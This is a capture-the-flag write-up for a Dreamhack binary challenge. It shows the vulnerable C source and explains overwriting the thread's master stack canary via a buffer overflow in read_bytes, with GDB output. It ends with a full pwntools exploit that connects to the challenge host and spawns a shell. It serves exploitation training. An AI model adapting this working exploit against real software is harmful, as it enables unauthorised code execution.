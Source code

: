 # Write up

Source code of binary is given

```
#include <pthread.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void giveshell() { execve("/bin/sh", 0, 0); }
void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void read_bytes(char *buf, int size) {
  int i;

  for (i = 0; i < size; i++)
    if (read(0, buf + i*8, 8) < 8)
      return;
}

void thread_routine() {
  char buf[256];
  int size = 0;
  printf("Size: ");
  scanf("%d", &size);
  printf("Data: ");
  read_bytes(buf, size);
}

int main() {
  pthread_t thread_t;

  init();

  if (pthread_create(&thread_t, NULL, (void *)thread_routine, NULL) < 0) {
    perror("thread create error:");
    exit(0);
  }
  pthread_join(thread_t, 0);
  return 0;
}

```

# Primitives

In function **read_bytes**, there are buffer overflow vuln.

```
void read_bytes(char *buf, int size) {
  int i;

  for (i = 0; i < size; i++)
    if (read(0, buf + i*8, 8) < 8)
      return;
}

```

Stack looks like this

```
   fs_base <br>

+----------------+
|                |
| thread_routine |
|                |
|      buf       |
+----------------+
|                |
|   read_bytes   |
|                |
+----------------+
```

So, if we continue bof for **buf**, we can overwrite master canary. <br>

If we calculate, we can find out the distance between buf and **fs_base**(0x928) <br>

But, simply writing code for b'A' * 0x928 + (canary) results in segmentation fault. <br>

![Gdb Error](../images/MasterCanary.png)

```
-> 0x7f1431348af2 c6807209000000          <NO_SYMBOL>   mov    BYTE PTR [rax + 0x972], 0x0
   0x7f1431348af9 c3                      <NO_SYMBOL>   ret

gef> p $rax
$1 = 0x4141414141414141
```

**Cannot access memory at address 0x4141414141414ab3** <br>

So, at that position we have to put writable memory address(ex: bss)

```
gef> vmmap
[ Legend:  Code | Heap | Stack | Writable | ReadOnly | None | RWX ]
Start              End                Size               Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000001000 0x0000000000000000 r-- /home/mc_thread/mc_thread
0x0000000000401000 0x0000000000402000 0x0000000000001000 0x0000000000001000 r-x /home/mc_thread/mc_thread
0x0000000000402000 0x0000000000403000 0x0000000000001000 0x0000000000002000 r-- /home/mc_thread/mc_thread
0x0000000000403000 0x0000000000404000 0x0000000000001000 0x0000000000002000 r-- /home/mc_thread/mc_thread
0x0000000000404000 0x0000000000405000 0x0000000000001000 0x0000000000003000 rw- /home/mc_thread/mc_thread
0x0000000001f68000 0x0000000001f89000 0x0000000000021000 0x0000000000000000 rw- [heap]
```

We can use 0x404000 <br>

Final exploitation looks like this

```
from pwn import *
p = remote('host1.dreamhack.games', 8685)

p.recvuntil(b'Size: ')
p.sendline(b'294')
p.recvuntil(b'Data: ')

payload = b'A' * 8

for i in range(35):
    p.send(payload)

p.send(p64(0x401256))

for i in range(290 - 36):
    p.send(payload)

payload = p64(0x404000)

p.send(payload)

payload = b'A' * 8

p.send(payload)
p.send(payload)
p.send(payload)
p.send(payload)
p.send(payload)

p.interactive()
```

Be sure to put address of **giveshell** function on right place(ret). 